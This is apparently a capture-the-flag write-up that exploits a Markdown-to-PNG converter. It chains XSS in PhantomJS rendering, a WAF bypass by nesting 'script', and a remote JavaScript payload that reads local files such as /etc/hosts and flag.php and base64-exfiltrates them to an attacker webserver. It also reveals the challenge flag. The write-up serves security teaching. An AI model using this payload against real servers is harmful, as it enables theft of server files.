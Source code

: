 **The credits for creating this challenge go to: 0xPwny**

# Light recon:
Looking at the response headers `Server: Apache/2.4.18 (Ubuntu)`,  and the source code (which contains a `mstafa.php`) we will assume that we're dealing with PHP web application.

After doing a some light fuzzing, nothing interesting shows up except `flag.php`:  

```sh
$ ffuf -w /usr/share/seclists/Discovery/Web-Content/raft-small-directories.txt -u https://thnbdarija-xxconverters.chals.io/FUZZ -ac -c -v -e .php
[...Snip...]
[Status: 200, Size: 0, Words: 1, Lines: 1]
| URL | https://thnbdarija-xxconverters.chals.io/flag.php
    * FUZZ: flag.php
```

Browsing to it reveals nothing (so we must read it using LFI/RCE/SSTI/XXE ...)

# Markdown to PNG? : 
The form is rather simple, you submit something and it gets written to an image file which is sent back to us:

![image](https://user-images.githubusercontent.com/92731777/163899463-9e99e247-a015-4c20-90c3-3da55acaa11d.png)
![image](https://user-images.githubusercontent.com/92731777/163899634-50fd0257-da8a-4b51-8e6c-8e1ad257950b.png)

Our request/response combo looks like this:

![image](https://user-images.githubusercontent.com/92731777/163899581-1a914fe1-6b05-4663-b6ab-0e3a6d654d7e.png)

Filenames are random, the only possible attack vector is LFI/Command injection (if for example a router takes our input (filename) and looks for it in another directory besides `pics/`/ concatenates it with a command) but i won't go through it for now and i'll assume that the files are processed THEN written inside `pics/` directory.

This kind of converters have been generally vulnerable to the so called "server side" XSS (e.g dynamic pdf generators) where you can basically inject some html/js code that fetches local files, do SSRF etc...

Let's test that out:

![image](https://user-images.githubusercontent.com/92731777/163900258-ac67689b-113f-4c09-aeb5-06550de40919.png)


It wasn't reflected as text this time but as html instead, we got a potential XSS. Let's see if we can run Javascript code:

![image](https://user-images.githubusercontent.com/92731777/163900525-70325620-ab2f-4e62-ab97-f59d0396f4dd.png)


Yes we can, did you noticed that "script" has been stripped out? [spoiler: there's a WAF in action ;) ]

Running Javascript code like this is cumbersome (e.g you have to escape quotes every now and then when writing complex code). So, let's see if we can include remote script:

![image](https://user-images.githubusercontent.com/92731777/163900570-a6771503-178b-48da-b7f0-5459cd3cfcaa.png)

As mentioned, "script" has been stripped by the server, a common bypass for this is nesting one inside another like `scrscriptipt`, which results in the "outer" script to be concatenated.

Aaaaand we got a request: 

![image](https://user-images.githubusercontent.com/92731777/163901661-90286b32-c248-414f-84be-77bf76ef3e57.png)

# Time to stop joking about XSS:
Looking at the `User-Agent` header we can see `PhantomJS/2.1.1` which is a headless browser, after googling for any known vulnerability/PoC we will come across this one: https://buer.haus/2017/06/29/escalating-xss-in-phantomjs-image-rendering-to-ssrflocal-file-read/


TL;DR: We make the server load our remote script, which reads local files using `file://` scheme, and sends the base64 encoded file back to us.
	
`innocent.js` content:
```js
function reqListener () {
    var encoded = encodeURI(this.responseText);
    var b64 = btoa(this.responseText);
    var raw = this.responseText;
    document.write('<iframe src="http://<your_webserver>/exfil?data='+b64+'"></iframe>');
} 
var oReq = new XMLHttpRequest(); 
oReq.addEventListener("load", reqListener); 
oReq.open("GET", "file:///etc/hosts"); // file to read
oReq.send();
```

Sping up your webserver to host the file and make the target server include it.

![image](https://user-images.githubusercontent.com/92731777/163900753-305c7a72-d703-4903-81e4-ad9d11ff1fc8.png)

aaand we got a hit with the file being sent back to us:

![image](https://user-images.githubusercontent.com/92731777/163901852-c38fb581-ca2b-476f-a594-7837ba2949ee.png)

`/etc/hosts` file content: 

![image](https://user-images.githubusercontent.com/92731777/163900719-5ed911a2-7932-42a3-ab44-547b054fec59.png)

Local file read confirmed.
Remember that `/flag.php` file? by default apache hosts files under `/var/www/html/`, let's check if it's there

Same drill, edit the file to read and resend the XSS payload, after getting a hit on your local webserver base64 decode the exfil parameter's content:

![image](https://user-images.githubusercontent.com/92731777/163901826-ae56c7a7-0f96-4650-8bbc-40252d86e1cb.png)

Flag: `thnb{3aaaaw3d_D3rd4k_aAasi_xsser}`



